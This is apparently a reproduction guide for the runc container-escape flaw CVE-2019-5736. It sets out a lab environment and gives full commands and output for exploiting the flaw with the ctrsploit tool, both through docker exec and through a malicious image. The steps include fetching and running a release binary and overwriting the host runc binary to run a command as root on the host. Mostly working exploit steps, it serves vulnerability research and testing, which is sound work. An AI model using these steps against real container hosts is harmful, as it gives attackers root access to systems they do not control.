

# runc CVE-2019-5736

## 1. Vulnerability Introduction

runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe.

## 2. Exploit Scenario

* Vulnerable container runtime

## 3. Prerequisites

1. runc <= v1.0.0-rc6

## 4. Vulnerability Existence Check

```shell
ctrsploit checksec cve-2019-5736
```



## 5. Reproduce

### 5.1 Reproduce Environment

```shell
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd docker_archive/vul/cve-2019-5736
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

<details><summary>env details</summary>

```shell
root@cve-2019-5736:~# docker --version
Docker version 17.06.0-ce, build 02c1d87
root@cve-2019-5736:~# docker-runc --version
runc version 1.0.0-rc3
commit: 2d41c047c83e09a6d61d464906feb2a2f3c52aa4
spec: 1.0.0-rc5
```

</details>

### 5.2 Reproduce Steps

#### exec method


terminal 1

```shell
root@cve-2019-5736:~# docker run --name poc -ti ubuntu:16.04 bash
root@b54c1cd02517:/# apt update && apt install -y wget
root@b54c1cd02517:/# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@b54c1cd02517:/# chmod +x /usr/bin/ctrsploit
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
```

terminal 2

```shell
root@cve-2019-5736:~# docker exec -ti poc /bin/sh
```

terminal 1

```shell
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
INFO[0000] Found the PID: 22                            
INFO[0000] Successfully got the file handle             
INFO[0000] Successfully got write handle&{0xc00009a060} 
INFO[0000] The command executed is#!/bin/bash
touch /escaped
root@c4602d14a7f8:/# exit
root@cve-2019-5736:~# ls -lah /escaped 
-rw-r--r-- 1 root root 0 Oct 14 08:49 /escaped
```

#### image method


```shell
root@cve-2019-5736:~# ctrsploit vul 5736 x image -c 'touch /escaped'
INFO[0000] exploit generated in poc-cve-2019-5736 directory, build it and push it to your registry
docker build -t poc poc-cve-2019-5736 
root@cve-2019-5736:~# docker build -t poc poc-cve-2019-5736
Sending build context to Docker daemon  6.144kB
Step 1/10 : FROM golang:1.16 AS builder
 ---> 972d8c0bc0fc
Step 2/10 : COPY overwriter.go /
 ---> 6fe005276394
Removing intermediate container bcd95d06fe39
Step 3/10 : COPY ld.go /
 ---> c96cc8d25694
Removing intermediate container deac0e0c9b4e
Step 4/10 : RUN CGO_ENABLED=0 go build -o /overwriter /overwriter.go
 ---> Running in 5527dc25ba1a
 ---> 1559134298da
Removing intermediate container 5527dc25ba1a
Step 5/10 : RUN CGO_ENABLED=0 go build -o /ld /ld.go
 ---> Running in e870f2e20af3
 ---> 07547540fe01
Removing intermediate container e870f2e20af3
Step 6/10 : FROM ubuntu:16.04
 ---> b6f507652425
Step 7/10 : COPY --from=builder /ld /lib64/ld-linux-x86-64.so.2
 ---> Using cache
 ---> e15e9f6a5e5c
Step 8/10 : COPY --from=builder /overwriter /
 ---> 3be58e5a6a06
Removing intermediate container c9ea8ad203d6
Step 9/10 : COPY payload /payload
 ---> 55529e029bf9
Removing intermediate container a0468d84af75
Step 10/10 : ENTRYPOINT /proc/self/exe
 ---> Running in bf38aaf8feaa
 ---> d8d16c4d99b9
Removing intermediate container bf38aaf8feaa
Successfully built d8d16c4d99b9
Successfully tagged poc:latest
root@cve-2019-5736:~# docker run -ti poc
ld
[+] Successfully got the file handle 3
overwriter
/proc/self/fd/3
[+] Successfully got write handle &{0xc00004a060}
[+] The command executed is 
#!/bin/bash
touch /escaped
root@cve-2019-5736:~# ls -lah /escaped 
-rw-r--r-- 1 root root 0 Oct 14 09:34 /escaped
```
